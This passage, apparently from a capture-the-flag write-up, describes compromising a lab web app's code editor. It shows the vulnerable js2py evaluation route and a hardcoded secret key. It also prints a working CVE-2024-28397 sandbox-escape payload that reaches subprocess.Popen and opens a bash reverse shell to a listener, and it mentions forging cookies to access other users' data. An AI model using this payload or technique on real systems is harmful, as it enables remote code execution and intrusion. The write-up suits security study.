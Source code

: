 Meanwhile the second part of the cookie session was a mystery until I downloaded the source code from `/download`. In fact the second part is crafted by using the timestamp and the `secret_key = 'S3cr3tK3yC0d3Tw0'`. You can use the various cookies from different `user_id` to move between users and look for saved snippets of code from other players. But I arrived to the conclusion that the cookie was not the vulnerability, so i moved back to the source code. By looking at the `app.py`, there is a snippet of code regarding the `/run_code`:

```
@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```
Every snippet of code that we insert through the website’s form is executed by the `js2py` function. While researching this library, I found multiple sources discussing vulnerabilities associated with it. One of the main references I relied on is the following:

https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py

I took the payload as a starting point and change it for our goal. Once ready I opened a connection with:

`nc -lvnp 9001`

And runned the payload in the editor, but be careful to character supported.

In js2py (and any real JS), you must use:
" (U+0022 quotation mark)
' (U+0027 apostrophe)
Never use:
“ ” (curly quotes from Word/editors)
‘ ’ (curly apostrophes)

```
let cmd = "/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.X/9001 0>&1'";
let hacked, bymarve, n11;
let getattr, obj;
hacked = Object.getOwnPropertyNames({});
bymarve = hacked.__getattribute__;
n11 = bymarve("__getattribute__");
obj = n11("__class__").__base__;
getattr = obj.__getattribute__;
function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i];
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            item(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result;
        }
    }
}
n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
console.log(n11);
n11;
```
